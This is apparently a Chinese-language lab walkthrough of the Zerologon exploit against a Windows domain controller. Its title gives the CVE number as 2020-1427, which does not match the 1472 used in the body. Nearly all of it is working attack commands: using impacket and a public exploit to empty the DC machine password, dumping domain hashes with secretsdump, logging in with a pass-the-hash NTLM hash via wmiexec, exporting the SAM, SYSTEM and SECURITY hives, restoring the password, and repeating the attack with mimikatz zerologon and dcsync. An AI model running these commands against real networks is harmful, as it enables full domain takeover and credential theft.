





# CVE-2020-1427

## 环境配置
需要登录域内机器，利用的是python3 安装最新版的impacket 

```
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
python  setup.py install
```


## POC 代码

###  secretsdump.py

**https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py**

> python secretsdump.py -no-pass -just-dc 域控计算机名$@域控ip    
> 
> python secretsdump.py  域名/用户名:密码@域控ip -just-dc-user  域控机器名$


### cve-2020-1472 exp


**https://raw.githubusercontent.com/mstxq17/cve-2020-1472/master/cve-2020-1472-exploit.py**

> python cve-2020-1472-exploit.py 域控计算机名 域控ip


### wmiexec.py

**https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/wmiexec.py**  

> python wmiexec.py -hashes  用户hash 域名/用户名@域控ip


### 恢复原hash

**https://raw.githubusercontent.com/mstxq17/cve-2020-1472/master/restorepassword.py**

> python restorepassword.py  域控计算机名@域控计算机名 -target-ip 域控ip -hexpass  hash

## 验证过程

首先利用 secretsdump.py  + 域控用户名：密码 查看域内 hash 值
> python secretsdump.py  testtop.com/administrator:administrator@192.168.176.133 -just-dc-user  WIN-S4TKRGMNDVQ$


尝试无密码读取域内 hash 值失败

> python secretsdump.py -no-pass -just-dc WIN-S4TKRGMNDVQ$@192.168.176.133


利用 cve-2020-1472 exp 将域控的密码置空 

> python cve-2020-1472-exploit.py  WIN-S4TKRGMNDVQ 192.168.176.133 


再次无密码的读取hash


发现 域控的 hash 值发生了变化


利用  wmiexec.py + 获取的Administrator hash 登录域控

> python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a4141712f19e9dd5adf16919bb38a95c  testtop.com/administrator@192.168.176.133  


拷贝本机中SAM数据库

```shell
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
```


通过sam等文件获得原ntlm hash：

> python secretsdump.py -sam sam.save -system system.save -security security.save LOCAL



利用恢复 hash 的脚本

> python restorepassword.py  WIN-S4TKRGMNDVQ@WIN-S4TKRGMNDVQ -target-ip 192.168.176.133 -hexpass 460dc1f133becabb9151e9ee52853a186d46a51b6170d74bf0c88c22e1f41a5e908bd046e41ca6c6edb5a0d1c3c5da4d10113c9e37c85dbb3eb6b02e5e5dc08660ce87a726516e95b6d57e5756846363c441e998298517852e2dde26c120272ebedf48e7a0a22990e9e26370241309e8106bac2855e81e2c106eeadb208ac6d5e7951a9a5ce2e5d2d5e26590152197cf79d2a4b7716a5f3ee84f5cec6e89081d239b377f2ccce8b7dd6cbd7249c58e3eae85e898ed483756476e2c0a0ba561597c2df50c9b5533bc06e29cc436ff0a440a70c3922a0f778a9af35cbcbea7775cefd81569f3f679539e2d044f6d9d2b96


可以看到信息完整恢复了


## mimikatz  

下载地址  `https://github.com/gentilkiwi/mimikatz/releases`

### 检测

> lsadump::zerologon /target:192.168.176.133 /account:WIN-S4TKRGMNDVQ$



### 攻击

> lsadump::zerologon /target:192.168.176.133 /account:WIN-S4TKRGMNDVQ$ /exploit  


### 读取 hash

> lsadump::dcsync /domain:testtop.com /authuser:WIN-S4TKRGMNDVQ$ /authpassword:"" /all /csv


### 恢复密码

>lsadump::postzerologon /target:testtop.com /account:WIN-S4TKRGMNDVQ$ 



~~maybe 读取 hash 的操作有误，导致恢复密码时并不能成功。~~

~~经过测试，不进行读取 hash 的操作，直接利用 mimikatz 攻击并恢复密码，还是无法正常的恢复密码。~~

~~再测试，利用 python 脚本进行攻击，利用 mimikatz 恢复密码，还是不对，我佛了~~
